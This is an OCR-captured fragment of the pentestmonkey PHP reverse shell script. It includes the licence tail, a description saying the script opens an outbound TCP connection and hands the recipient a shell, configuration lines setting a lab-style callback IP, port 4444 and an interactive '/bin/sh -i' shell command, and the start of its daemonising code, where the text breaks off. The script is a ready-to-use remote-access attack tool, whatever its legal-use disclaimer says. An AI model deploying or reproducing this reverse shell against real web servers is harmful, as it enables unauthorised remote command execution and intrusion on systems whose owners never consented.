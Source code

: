 // but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.2';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	